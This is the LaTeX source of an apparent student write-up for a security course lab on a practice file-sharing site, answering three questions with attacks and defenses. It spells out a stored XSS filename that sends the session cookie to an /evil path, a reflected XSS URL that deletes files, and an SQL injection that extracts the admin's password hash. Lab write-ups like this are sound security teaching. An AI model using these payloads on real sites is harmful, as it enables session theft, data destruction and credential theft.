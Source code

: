 \documentclass[11pt]{article}
\begin{document}
\\
\sffamily
\noindent
{\textbf{Question 5:}} \\
\textbf{attack:} We perform a stored XSS attack.\ We create a file, \textcolor{magenta}{garbage.txt}, fill it with \textcolor{magenta}{garbage}, and upload it.\ We then change the name of the file to be \textcolor{magenta}{<script>fetch({\textquotesingle}/evil/report?message={\textquotesingle}+document.cookie)</script>}, and share that file with cs161.\ Because we are told that he is actively browsing the main pages of the site, and because we are told that his session-token cookie is sent to the server with every request, this javascript will run once he loads a page that displays the title of the file and send his session-cookie to /evil/logs accordingly.\ \textbf{defense:} Because the filename is appearing in some HTML tag when it is displayed to the user, we need to sanitize our input.\ Our data sanitization could remove all tags, or could be more intentional and remove specific (potentially malicious) tags like <script>.\ \\
\\
\sffamily
\noindent
{\textbf{Question 6:}} \\
\textbf{attack:} We perform a reflected XSS attack.\ When you search for a file, the query-parameter is reflected back in the search results.\ We therefore inject a script to delete the files by placing the script as a query-parameter in the URL for file search:\ \textcolor{magenta}{https://proj3.cs161.org/site/search?term=<script>fetch({\textquotesingle}https://\\proj3.cs161.org/site/deleteFiles{\textquotesingle},\{method:{\textquotesingle}POST{\textquotesingle}\})</script>}.\ Logging into the UnicornBox website and entering the URL there (because of the CORS policy) completes the attack.\ \textbf{defense:} We could not have our query parameter be placed into the HTML.\ However, if this functionality is needed, we can enforce Content Security Policy and provide an allowlist of sources of trusted content.\ Additionally, we can specify policy directives and enable control over the resources that page is allowed to load.\ \\
\\
\sffamily
\noindent
{\textbf{Question 7:}} \\
We are told that people reuse passwords and that admin has a normal user account.\ We revisit the sign-up page and get their password for their normal user account by performing the following SQL injection:
\begin{itemize}
    \item[$\star$] username:\ \textcolor{magenta}{garbage{\textquotesingle}; SELECT md5\_hash FROM users WHERE username = {\textquotesingle}admin{\textquotesingle} -{}-}
    \item[$\star$] password:\ \textcolor{magenta}{garbage}
\end{itemize}
\end{document}
